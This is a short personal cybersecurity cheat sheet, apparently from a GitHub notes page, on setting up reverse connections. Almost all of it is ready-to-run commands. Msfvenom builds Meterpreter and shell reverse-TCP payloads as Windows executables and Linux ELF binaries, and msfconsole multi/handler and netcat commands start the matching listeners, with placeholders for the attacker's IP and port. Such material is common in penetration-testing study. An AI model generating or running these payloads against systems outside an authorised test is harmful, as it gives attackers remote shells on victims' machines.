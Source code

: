 # Security Notes
Documenting my journey in the world of CyberSecurity




##  Reverse Conneciton Cheat Sheet

### Meterpreter
**Windows**

MSFVenom Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
**Linux**
MSFVenom Payload
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
### Netcat

**Windows**
MSFVenom Payload
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
Netcat Listener
```
nc -lvp <Your_Port>
```
**Linux**
MSFVenom Payload
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
Netcat Listener
```
nc -lvp <Your_Port>
```
Replace <Your_IP> with your IP address and <Your_Port> with the desired port number for the reverse connection.